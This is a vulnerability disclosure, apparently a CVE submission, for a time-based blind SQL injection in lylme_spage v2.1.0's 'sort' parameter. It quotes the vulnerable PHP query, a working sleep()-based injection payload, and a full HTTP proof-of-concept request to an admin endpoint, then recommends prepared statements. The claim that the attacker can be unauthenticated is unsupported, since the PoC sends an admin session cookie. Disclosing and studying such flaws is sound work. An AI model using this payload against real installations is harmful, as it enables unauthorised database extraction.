 # CVE Submission: SQL Injection Vulnerability in lylme_spage

## 1. Vulnerability Title

**Time-Based SQL Injection in `lylme_spage` via `sort` Parameter**

## 2. Vulnerability Type

**SQL Injection (Time-Based Blind)**

## 3. Product Information

- **Vendor:[lylme](https://github.com/LyLme/lylme_spage)**
- **Product:** [lylme_spage](https://github.com/LyLme/lylme_spage)
- **Affected Version(s):[v2.1.0]**
- **Platform(s):** Web-based (PHP + MySQL)

## 4. Vulnerability Description

A time-based blind SQL injection vulnerability exists in the `lylme_spage` project. The vulnerable point lies in the processing of the `sort` parameter in the following SQL statement:

```php
$sql = "INSERT INTO `lylme_tags` (`tag_id`, `tag_name`, `tag_link`, `tag_target`,`sort`) VALUES (NULL, '" . $name . "', '" . $link . "', '" . $target . "','" . $sort . "');"
```

Due to the direct concatenation of user input without proper sanitization or use of prepared statements, an attacker can inject malicious SQL code via the `sort` parameter.

## 5. Steps to Reproduce

1. Submit a request to the relevant endpoint that triggers the above SQL statement.
2. Inject the following payload into the `sort` parameter:

```
10"'>if(ord(substring(user(),1,1))=108,sleep(5)&exp(999),exp(999))>0);#
```

3. If the first character of the database username is `'l'` (ASCII 108), the server will pause for 5 seconds, confirming the vulnerability.

## 6. Impact

An unauthenticated attacker can:

- Extract database-level information (such as current user, schema, or data)
- Chain blind injection queries to dump database content
- Potentially gain control over the backend system if privileges are high

## 7. Proof of Concept (PoC)

```http
POST /admin/ajax_link.php?submit=add_tag HTTP/1.1
Host: 192.168.153.1:8012
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----geckoformboundary32938179cf3e33feeb308e1c9e0d543a
Content-Length: 562
Origin: http://192.168.153.1:8012
Connection: close
Referer: http://192.168.153.1:8012/admin/tag.php?set=add
Cookie: admin_token=85aeVC2jJJRD%2Fp%2FI7iswn1oGr1H7VfJ9KJGJwk9OapcP7OWbXvEzNTzGiMhJvYYQIkvj1RaKrFbvQ6T%2BsmXF%2F2x8hA; PHPSESSID=hrqk60j6v4afe8b7gi95dphi07
Priority: u=0

------geckoformboundary32938179cf3e33feeb308e1c9e0d543a
Content-Disposition: form-data; name="name"

1
------geckoformboundary32938179cf3e33feeb308e1c9e0d543a
Content-Disposition: form-data; name="link"

1
------geckoformboundary32938179cf3e33feeb308e1c9e0d543a
Content-Disposition: form-data; name="target"

1
------geckoformboundary32938179cf3e33feeb308e1c9e0d543a
Content-Disposition: form-data; name="sort"

10"'>if(ord(substring(user(),1,1))=108,sleep(5)&exp(999),exp(999))>0);#
------geckoformboundary32938179cf3e33feeb308e1c9e0d543a--

```

Monitor the response time of the server. A 5-second delay indicates a successful injection.

## 8. Mitigation / Recommendations

- Use **prepared statements** (e.g., `PDO` or `mysqli` with bound parameters)
- Apply strict input validation and sanitization
- Disable detailed SQL error reporting in production

## 9. Credit

Discovered by **yanbei**
Contact:yanbei_mail@163.com
